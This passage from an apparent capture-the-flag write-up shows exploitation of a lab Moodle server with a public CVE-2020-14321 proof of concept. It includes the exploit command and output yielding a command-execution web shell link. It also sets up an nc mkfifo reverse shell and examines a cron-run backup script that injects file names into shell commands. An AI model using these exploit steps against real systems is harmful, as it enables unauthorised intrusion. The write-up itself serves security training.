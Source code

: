 {{link("https://github.com/HoangKien1020/CVE-2020-14321", "../../../static/writeups/images/github.jpg", "CVE-2020-14321")}}

{{text("We copy it onto our machine and run it.")}}

{{text("If for some reason it doesn't work for you, change the 9th line to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>headers={'Content-Type':'application/x-www-form-urlencoded','Referer': 'http://MACHINE_IP:9020/moodle/'}</code>.")}}

{{console("python3 exploit.py -url http://10.10.127.117:9020/moodle -cookie b7375pbubd51c42i2tes9dtfg9 -cmd whoami", "                           ***CVE 2020 14321*** 
    How to use this PoC script
    Case 1. If you have vaid credentials:
    python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
    Case 2. If you have valid cookie:
    python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir
    
[+] Your target: http://10.10.127.117:9020/moodle
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
http://10.10.127.117:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami

www-data")}}

{{text("We now have remote code execution on the target machine.")}}

{{text("Now it is possible for us to use the generated link and send commands from there.")}}

{{text("Let us proceed to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and get ourselves a URL encoded <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nc mkfifo</code> shell and pass it as the parameter.")}}

{{image("../../static/writeups/plottedlms/images/000003.jpg")}}

{{header("Shell as plot_admin", "shell-as-plot-admin")}}

{{text("Now that we have a reverse shell, let us search for ways to privilage escalate.")}}

{{text("In the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/plot_admin/</code> directory we find an interesting looking script named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup.py</code>.")}}

{{console("cat backup.py", "import os

moodle_location = '/var/www/uploadedfiles/filedir/'
backup_location = '/home/plot_admin/.moodle_backup/'

os.system('/usr/bin/rm -rf ' + backup_location + '*')

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp '' + root + '/' + file + '' ' + backup_location)")}}

{{text("Upon checking <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/crontab</code> we discover that this script runs every minute.")}}
